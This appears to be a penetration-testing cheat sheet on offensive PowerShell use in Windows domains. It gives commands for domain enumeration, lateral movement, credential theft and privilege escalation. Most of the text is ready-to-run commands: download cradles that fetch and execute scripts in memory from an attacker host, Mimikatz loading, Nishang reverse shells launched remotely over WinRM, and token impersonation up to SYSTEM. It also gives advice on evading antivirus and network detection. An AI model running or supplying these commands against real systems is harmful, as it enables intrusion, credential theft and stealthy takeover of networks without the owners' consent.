 # Powershell magic

This article is about using different techniques to achieve both enumeration of the domain, popping shells, pivoting and executing exploits to gain further access. Pivoting means to move across machines in an environment. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

### Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

### BloodHound

BloodHound is a tool for mapping out the entire domain graphically.

`Powershell -exec bypass`

`Import-module sharphound.ps1`

`Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing`

### Remoting

Once a domain user is acquired, a lot can be done in terms of remoting. In AD environments, a shell on a box is barely required given a certain set of criteria. One a domain user as been acquired you can use numerous commands to work remotely on boxes you have access to either through domain or local privileges on the remote box. Windows has three ways of providing authenticated access: credentials, hash or tokens. You can see those differnet types of access below:

If file shares are available on a box you can use dir on the path without ever getting prompted for a password given that you already have a shell as the user you want to authenticate as. This means if you somehow got a shell without credentials or a hash, you still have your token to verify your identity to remote services. See command below for a simple verification.

`dir \\BOX01\c$\`

If you however don't have a shell but the credentials of a domain user you can use the somewhat old school [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994%28v=technet.10%29). This \_will \_prompt you for password, but can be ran without a shell from your own machine.

/netonly : Indicates that the user information specified is for remote access only.

`runas /netonly /FQDN\user cmd.exe`

Run the following command to execute powershell and get on a remote box

`runas /netonly /user:customer\ank powershell`

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

If you want to go even harder, you can set up credentials in Powershell. This is something that Empire can do natively with functions like ps\_remoting.

`$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential  -ScriptBlock {hostname};`

### Powerview

Powerview is a super useful set of tools for enumerating a domain. It is part of the much larger toolset of Powersploit, and development is huge on this, so things change all the time.The script and full command list for Powerview can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

PowerView might be blocked by antivirus, see this funny little article on how to "bypass" it. This actually worked in a real environment in 2018. https://implicitdeny.org/2016/03/powerview-caught-by-sep/

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`

If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`



### Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute.  Immediate results straight in the terminal!

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

### Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```powershell
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.

### Token impersonation

We can do token impersonation completely without Meterpreter, which is really nice. This trick spawns a new thread, but also works in the same thread. However, if you type whoami it might still show the old user. If you however spawn a new process and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

### Invoke-Kerberoast

kerberoasting is a technique

[https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

[https://room362.com/post/2016/kerberoast-pt1/](https://room362.com/post/2016/kerberoast-pt1/)

